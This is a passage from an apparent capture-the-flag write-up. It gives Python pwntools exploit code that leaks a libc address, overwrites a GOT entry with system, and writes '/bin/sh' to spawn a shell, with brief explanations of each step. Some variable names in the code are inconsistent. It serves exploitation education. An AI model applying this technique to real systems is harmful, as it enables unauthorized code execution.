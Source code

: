 ```python 
	conn.recvuntil("PSA: ")
	data = conn.recvuntil("State")
	conn.recvuntil("Choice:")
	leak = data[4:8]
	leak = unpack(leak, 'all', 'little', False)
	log.info("Fgets in libc: " + hex(leak))
	#LIBCOFFSET
	free_in_libc_at_runtime = leak
	system_in_libc = free_in_libc_at_runtime + system_offset
	log.info("System in libc: " + hex(system_in_libc_at_runtime))
	what = (p32(system_in_libc_at_runtime) + p32(leak) )
	conn.sendline("4")
	conn.recvuntil("announcement:")
	conn.sendline(str(len(what)+1))
	conn.sendline(what)
	conn.recvuntil("Choice:")
```
Here the function takes in input the `free_in_got` address and before propagating it up to `char *announcement` adds `100` to later move this into `int announcement_length`. Then leaks the `free_in_libc_at_runtime` address, calculates `system_in_lib_at_runtime` using the offset obtained from the leaked libc ad writes it into `free_in_got`

<br>Free pointer step:
```python 
def free_pointer(address):
	p = log.progress('Propagating_bw')
	for i in xrange(260):
		p.status("prop " + str(i) + " of 260")
		propagate_bw(address)
	p.success("Finish")
	initialize(0)
```
After a little debugging we found out that just "dragging" amounts into `announcement` could cause some problem since values would get summed up in an unwanted way, so we defined a procedure to "drag back" the value into the "legit space" (`int s2_citizens[l2_len]`) and purge it away by reinitilizing everything to 0.

<br>Second step:
```python 
def second_step(address):
	initialize(address)
	propagate_fw(address)
	initialize(0)
	p = log.progress('Propagating')
	for i in xrange(256):
		p.status("prop " + str(i) + " of 256")
		propagate_fw(address)
	p.success("Finish")
	what = "/bin/sh\x00"
	conn.sendline("4")
	conn.recvuntil("announcement:")
	conn.sendline(str(len(what)+1))
	conn.sendline(what)
	conn.recvuntil("Choice:")
```
Similar to the first one, puts a valid bss address into `announcement` pointer and writes `/bin/sh` into it.
